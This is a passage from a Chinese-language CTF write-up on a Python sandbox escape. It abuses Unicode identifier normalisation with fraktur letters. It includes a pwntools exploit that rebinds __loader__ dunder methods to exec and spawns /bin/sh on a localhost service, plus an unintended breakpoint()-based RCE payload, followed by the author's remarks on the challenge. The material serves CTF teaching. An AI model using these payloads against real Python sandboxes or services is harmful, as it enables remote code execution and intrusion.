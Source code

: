 ::fold{title="Exploit" success expand}
```py
from pwn import *

exp = """
__𝔩𝔬𝔞𝔡𝔢𝔯__.__𝔠𝔩𝔞𝔰𝔰__.__𝔭𝔬𝔰__=𝔦𝔫𝔭𝔲𝔱
𝔠𝔪𝔡=+__𝔩𝔬𝔞𝔡𝔢𝔯__
__𝔩𝔬𝔞𝔡𝔢𝔯__.__𝔠𝔩𝔞𝔰𝔰__.__𝔞𝔡𝔡__=𝔢𝔵𝔢𝔠
__𝔩𝔬𝔞𝔡𝔢𝔯__+𝔠𝔪𝔡
"""

r = remote("localhost", 1234)
r.sendline(exp.strip().replace("\n", ";").encode())
r.sendline(b'import os; os.system("/bin/sh")')
r.interactive()
```
::

---

### 非预期解

该解法与预期解原理类似，但是优雅很多。

思路是调用 [`breakpoint()` 函数](https://docs.python.org/3/library/functions.html#breakpoint)，其作用是设置断点并唤起 pdb 调试器，而后者可以当作一个 Python REPL 使用，从而实现 RCE。

::fold{title="Exploit" success expand}
```py
exp = "__𝔩𝔬𝔞𝔡𝔢𝔯__.__𝔠𝔩𝔞𝔰𝔰__.__𝔭𝔬𝔰__=𝔟𝔯𝔢𝔞𝔨𝔭𝔬𝔦𝔫𝔱;+__𝔩𝔬𝔞𝔡𝔢𝔯__"
```
::

---

### 花絮

这是我自己出的最满意的一道题，用极简的题目考最深的知识点，很符合我（理想中的）个人风格。虽然和其他老师的题差距还很大，但起码开了个好头。

这道题原来叫 Magic Python，一语双关对应 Python 的魔术方法，但是后来感觉藏得太深了容易被忽略掉。于是为了大家的游戏体验，干脆直接在标题放上了关于标志符规范化的明确提示，剩下要做的就是基础的绕过了。

我用的生成 Unicode 混淆字符的工具是 [igfonts](https://igfonts.io/)，其实我的 QQ 昵称就是若干年前拿它生成的。（打 CTF 还是得有点闲情雅致，~~哥特体不比你那全角斜体帅多了~~）

::fold{title="夹带私货"}
说到哥特体，本人还是英文书法的狂热粉丝，如果有喜欢英文书法的师傅欢迎联系！🤗

（下面是拙作一幅）

![©Xecades 2024 _Le Petit Prince_](./assets/zjuctf2024-es.jpg)
::

---

## Silence
